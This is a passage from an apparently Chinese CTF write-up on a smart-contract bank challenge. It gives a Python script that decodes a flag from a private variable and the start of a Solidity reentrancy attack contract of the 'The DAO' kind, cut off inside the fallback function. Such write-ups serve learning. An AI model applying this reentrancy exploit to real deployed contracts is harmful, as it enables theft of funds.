 最大难题就是我不是 DotNet 教的（跑

## 韭菜银行

第一小题可以直接看见 private 中 init 的值

```python
O = 1940577538063170034860903343625652396

result = []

for index in range(32):
    b = (O >> (index * 4)) & 0xF

    if b < 10:
        result.append(b + 48)
    else:
        result.append(b + 87)
    
result.reverse()
print("".join(map(chr, result)))
```

第二题是著名的 `The DAO` 的攻击

我写的攻击合约是这样的

```solidity
pragma solidity >=0.4.26;

contract Target {
    function withdraw(uint amount) public;
    function get_flag_2(uint user_id) public;
    function deposit() public payable;
}

contract JCBankHacker {
    address owner;
    address bank;
    uint balanceInBank;
    uint step;
    
    modifier ownerOnly { require(owner == msg.sender); _; }
    
    constructor (address b) public {
        owner = msg.sender;
        bank = b;
        step = 0;
    }
    
    function setBankAddr(address bankAddr) ownerOnly {
        bank = bankAddr;
    }
    
    function killWorld() ownerOnly {
        selfdestruct(owner);
    }
    
    function getFlag() ownerOnly {
        Target bankInstance = Target(bank);
        bankInstance.get_flag_2(1);
    }
    
    // Attack implements
    function () payable {
        Target bankInstance = Target(bank);
```